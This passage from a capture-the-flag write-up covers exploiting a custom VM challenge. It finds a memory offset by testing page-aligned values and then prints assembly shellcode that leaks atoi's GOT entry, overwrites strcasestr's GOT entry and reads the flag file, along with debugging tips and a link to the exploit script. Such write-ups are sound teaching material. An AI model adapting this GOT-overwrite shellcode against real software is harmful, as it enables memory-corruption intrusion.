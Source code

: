 Even if the offset is different, they don't seem to differ a lot according to my testing on different machines. So, I will test over range from `-0x30 to 0x30` first. We only need to test the page size (0x1000) multiples because `vm_mem` is always page aligned.

Finally, I found the `i` to be `-0x13`.

Then it is time to write final shellcode!

```assembly
mov rdi,atoi_got
xor rax,rax
mov al,0x76
call rax ; leak address of atoi
xor rax,rax
mov al,0x69
mov rdi,strcasestr_got
push 0x41
pop rsi
call rax ; rewrite strcasestr to atoi
mov rdi,strcasestr_got
xor rax,rax
mov al,0x76
call rax ; check it is indeed rewritten (actually not needed)
mov rax,0xffffffff989e9399
xor rax,0xffffffffffffffff
push rax
mov rdi,rsp
xor rax,rax
mov al,0x87
call rax ; cat flag
this:
jmp this ; used to debug: make sure everything is executed
```

To debug the shellcode remotely (because our MacOS machine has no `socat`), `this: jmp this` is very important: if the program finally got stuck, it shows that our shellcode is executed without any crash; if not, it shows that something is wrong.

Note the shellcode should be without `0`.

Here is the final [exploit](files/exp.py).

